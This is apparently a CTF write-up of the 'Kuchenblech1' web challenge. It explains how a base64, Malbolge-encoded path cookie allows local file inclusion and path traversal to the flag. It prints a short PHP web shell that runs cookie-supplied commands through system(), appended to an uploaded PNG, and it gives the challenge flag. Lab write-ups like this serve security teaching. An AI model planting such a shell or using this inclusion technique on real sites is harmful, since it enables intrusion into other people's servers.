 # Kuchenblech1

The description of the challenge said:

>	kuchenblech1,
	Category: Web,
	Difficulty: Easy (but guessy),
	Author: localo & A2nkF
	
>	This Challenge can only be solved by the chosen one. While many have tried, no one 	has ever managed to solve it. Think you can do it? Then go ahead. But be warned, all your skills are going to be put to the test...
	hax.allesctf.net:5555

The site proposed a login/register page and after the authentication process it showed a real working chat.
A user could post message in this chat, but he also change image profile, which it had to be a PNG.

After a glance at the console, which it shown every request done via web socket to the server, I checked the cookies and the first thing that it have caught my attention was the "nick" cookie value set to the my username.
So, I've tried to change it to "admin", but after refreshing page it's came back with the start value. 
Then I've paid attention to another strange cookie called 'p', its value seemed a base64 sting. 
Decoding the string, it returned another odd string which remember me Malbolge esoteric language. 
```
('%%:^"~}}{zz1Uwutt+0)(Lnmk)"Fhg$#"y?=O_):x[Yotsl2Soh.Oe+vhg9_G$5"!_^W@
```

Decoded string returned_
```
chat.php
```

### Idea

The idea was that the path of the viewed page was stored as value in `p` cookie.

Immediately, I've tried to guess some hidden file, such as admin.php, flag.txt and so on, but none of these files was present.
However, when a page was not found the site was redirected to a fake shell page, with a funny(?) looped Rick Ashley's videoclip , "Never Gonna Give You Up", located in `/public/panic.html`.

![panic.html](panic_html.PNG)

### Exploit

There was two way to solve this chall:

##### 1. Guessing/brute forcing all possible flag file-path.

In facts, flag was reachable encoding  `../../flag` in the cookie.

##### 2. Uploading a php shell and pointing the cookie to the uploaded file. 

I tried to upload a PNG modified and system returned successfully. Then, I appended a php shellcode into the image:

```
<?php 
	if(isset($_COOKIE["cmd"])){

		system($_COOKIE["cmd"]);

	}else{

		system("ls");
	}
?>
```
The php code above looks for the "cmd" cookie which contains the command to execute in `system()`.

The last step was to write the image's path into `p` cookie to get the shell.
Even though browser showed profile images as stored in `static/img/profile/` and it gave the new image name in console, I didn't reach the uploaded image via cookie and I got stuck until the end.
After the flag's submissions have been closed, I realized that I missed one piece of the path at the start, `public/`, which I had seen when the site returned me the fake shell.

Therefore, encoding `public/static/img/profile/<image_name>.png` into `p` cookie's value, I had the shell.
> ***NOTE:*** A further encoding step was required from base64 to URLencode.

![phpshell](shellphp.PNG)

Playing with `cmd` cookie, It revealed me that flag was in `/flag` directory, and this latter was:

Flag:`ALLES{winner_winner_chicken_dinner}`
